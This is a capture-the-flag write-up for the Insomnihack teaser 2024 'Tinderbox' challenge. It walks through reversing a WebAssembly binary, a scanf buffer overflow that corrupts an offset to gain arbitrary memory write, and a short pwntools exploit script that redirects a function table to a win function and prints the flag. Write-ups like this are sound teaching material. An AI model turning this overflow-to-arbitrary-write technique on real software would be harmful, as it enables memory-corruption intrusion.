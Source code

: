 ```yaml
---
title: 'Insomnihack teaser 2024'
challenge: 'Tinderbox'
date: 2024-01-22T00:00:00+01:00
author: 'v0lp3 & SimozB & Bonfra'
description: 'Writeup for challenge TinderBox of Insomnihack teaser 2024' 
cover: '/img/Insomnihack_teaser_2024/logo.png'
tags: ['pwn', 'misc']
draft: false
---
```


```
My friend is not a great developer but he insisted to work on a prototype in C. He said he compiled the program to WebAssembly and "it is super secure" but I am doubtful.

nc tinderbox.insomnihack.ch 7171

Note: the server runs the module using `Wasmtime 16.0.0` and the runtime has access to the current directory.
```

### Quick look

The challenge attachment is a wasm file as confirmed by the `file` command.

```bash
$ file bin.wasm
bin.wasm: WebAssembly (wasm) binary module version 0x1 (MVP)
```

We can run this binary with the [Wasmtime](https://github.com/bytecodealliance/wasmtime) runtime:

```bash
$ wasmtime bin.wasm
Tell me your name:
```

We can provide arbitrary length name but no visible crash happens in any case. After we enter a string a small menu is displayed:

```bash
$ wasmtime bin.wasm
Tell me your name: naslab
1 - I made a typo in my name!
2 - Do some math for me.
3 - Tell me a joke!
```

The behavior of the options is as follows:

- (1) allows you to change the first letter of the name
- (2) take a number as input and calculate 37 - your input
- (3) print a text

We can use the [ghidra-wasm-plugin](https://github.com/nneonneo/ghidra-wasm-plugin) to disassemble it in Ghidra.

### Vulnerability

{{< image src="/img/Insomnihack_teaser_2024/get_name.png" position="center" >}}
Figure 1: Get name function

After disassembling it in Ghidra we immediately notice that the function `get_name` uses `scanf` with the format `%s`. So it's clear that there is a buffer overflow here.
We can see that there is a function called `win` that we need to call to print the flag and that is referenced by a function table as shown below.

{{< image src="/img/Insomnihack_teaser_2024/jump_table.png" position="center" >}}
Figure 2: Function table

{{< image src="/img/Insomnihack_teaser_2024/setValues.png" position="center" >}}
Figure 3: setValues function

Some minimal refactoring later we found that the `setValues` function (traceback: `setValues` <= `fixTypo` <=  `menu` <= `__original_main`) can be abused to get arbitrary write primitive on the memory and get the flag. Here is why:

- The buffer where name is stored is allocated in the `__original_main` function, so the buffer overflow occurs in that function context
- The `__original_main` function defines a `jump_table_offsets` which contains some offsets that are used to call the correct function in the function table shown above.
- The `__original_main` function calls the `menu` function and passes `name`, `jump_table_offsets` pointers and a variable `name_offset` containing 0. This offset is used in the `setValues` function to referencing to first character of the 'name' buffer. In short, it is the offset of the character modified by `fixTypo`.

{{< image src="/img/Insomnihack_teaser_2024/original_main.png" position="center" >}}
Figure 4: original_main function

We can't use buffer overflow directly to overwrite `jump_table_offsets` because the stack layout is the following:
N.B. in this stack representation (obviously) numbers in square bracket below are refered to the size of the array.

```
+________________________+
|                        |
|  jump_table_offsets[4] |
|________________________|
|                        |
|        name[16]        |
|________________________|
|                        |
|       name_offset      |
|________________________|
|                        |
|        something       |
|________________________|
|                        |
|           ret          |
+________________________+

```

We can exploit this to change the values into `name_offset` to negative value, and gain arbitrary memory write with `setValues`functions, basically we need only to modify `jump_tables_offset[1]` from value 3 to 2, so we'll call `win` function when we run third option in the menu.

{{< image src="/img/Insomnihack_teaser_2024/menu.png" position="center" >}}
Figure 3: menu function

After some try we found that the right offset to modify `jump_tables_offset[1]` is -12. 

Here is the script used to get the flag:

```python3
from pwn import *

p = remote("tinderbox.insomnihack.ch", 7171)
p.sendlineafter("name:", b"A" * 16 + p32(-12, signed=True))
p.sendlineafter("joke!", "1")
p.sendlineafter("there", "2")
p.sendlineafter("joke!", "3")

p.interactive()
```

> INS{L00k_mUm!W1th0ut_toUch1ng_RIP!}
